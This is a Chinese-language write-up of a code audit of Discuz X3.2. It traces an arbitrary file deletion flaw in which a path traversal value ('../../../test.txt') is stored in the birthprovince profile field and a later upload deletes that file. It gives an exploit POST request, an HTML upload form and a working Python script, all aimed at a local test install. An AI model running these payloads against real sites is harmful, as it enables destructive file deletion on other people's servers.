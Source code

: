 ```yaml
---
title: Discuz x 3.2 漏洞分析
tags: [代码审计]
categories: 代码审计
grammar_cjkRuby: true
---
```


审计最近出来的Discuz 的漏洞
<!-- more -->

# 0x01 爬坑

注册和登录都需要输入验证码吗，但根本没有要输入的地方，而且连图片也没有
第一步就是绕过验证


## 0x1 登录

![][1]
这里需要改一下

## 0x2 注册


![][2]
把第一个true改为false


# 0x02 漏洞定位
首先漏洞的发现过程是循序渐进的,有什么需要做什么都是一步一步来的

下面定位文件删除的漏洞点

可以利用现成的代码审计工具,这里我们利用rips
将代码定位到

source/include/spacecp/spacecp_profile.php

这里有好几处触发点我们一个一个分析其可能性

![][3]



首先提交

![][4]

验证第一个漏洞,这里之所以用profilesubmit和formhash是通过phpstorm动态调试出来的,如下图

![][5]

发现有一个点绕不过去,就是type==file,所以另寻它法

![][6]
这里只需要上传文件成功便可执行删除文件操作,所以这一点比较好绕过


# 0x03 代码回溯
有了删除操作,那么怎么将文件名可控呢,发现文件名为$space[$key]
loadcache会加载$space变量,如果里面有新值那么就可以update信息



![][7]

![][8]

那么在这里直接执行下图数据,就可以修改成任意文件名

![][9]


# 0x04 删除文件
万事具备只欠文件:smile: 下面是删除文件的操作
还记得回溯前的推理吗

只需提交一个文件就可以将现有的文件删除啦
看一下现有的文件路径

![][10]
data/attachment/profile/目录下
只需../../../就可以删除根目录文件了(当然我们可以给文件加上权限)


# 0x05 综合利用
首先利用改文件名,将文件名改为../../../xxx

`home.php?mod=spacecp&ac=profile&op=base`
`POST birthprovince=../../../test.txt&profilesubmit=1&formhash=b7ef819d`

其次利用文件上传将原有文件删除

``` php
<form action="http://127.0.0.1/Discuz/upload/home.php?mod=spacecp&ac=profile&op=base&XDEBUG_SESSION_START=1" method="POST" enctype="multipart/form-data">

<input type="file" name="birthprovince" id="file" />

<input type="text" name="formhash" value="b7ef819d"/></p>

<input type="text" name="profilesubmit" value="1"/></p>

<input type="submit" value="Submit" />

</from>
```

# 0x06 脚本编写

``` python
# coding:utf-8
import requests
from bs4 import BeautifulSoup
res = requests.session()
base = 'http://127.0.0.1/Discuz/upload/'
extend = 'member.php?mod=logging&action=login&loginsubmit=yes&infloat=yes&lssubmit=yes'

data = {
    'username':'action',
    'password':'action'
}

r = res.post(base+extend,data=data)



# get hashvalue
extend = 'home.php?mod=spacecp'
r = res.post(base+extend)
soup = BeautifulSoup(r.content, 'html.parser', from_encoding='utf-8')
strs = soup.find_all('input',attrs={'name':'formhash'})[0]
hashcode = strs['value']
print hashcode

# alter birthprivence

extend = 'home.php?mod=spacecp'
data = {
    'profilesubmit':'1',
    'birthprovince':'../../../1.txt',
    'formhash':hashcode
}
r = res.post(base+extend,data=data)

# delete file named blablabla


extend = 'home.php?mod=spacecp&ac=profile&op=base&XDEBUG_SESSION_START=1'
data = {
    'formhash':hashcode,
    'profilesubmit':'1'
}
files = {
    'birthprovince':('4ct10n.jpg',open('/home/yz/图片/33.png','rb'),"image/jpeg")
}

res.post(base+extend,data=data,files=files)

```


  [1]: ./images/2017-10-21%2014-03-22%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png
  [2]: ./images/2017-10-21%2014-14-28%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png
  [3]: ./images/2017-10-21%2021-01-32%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png
  [4]: ./images/2017-10-21%2021-27-03%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png
  [5]: ./images/2017-10-21%2021-29-48%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png
  [6]: ./images/2017-10-21%2021-01-54%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png
  [7]: ./images/2017-10-21%2021-39-20%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png
  [8]: ./images/2017-10-21%2021-42-43%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png
  [9]: ./images/2017-10-21%2021-45-21%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png
  [10]: ./images/2017-10-21%2021-50-40%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png
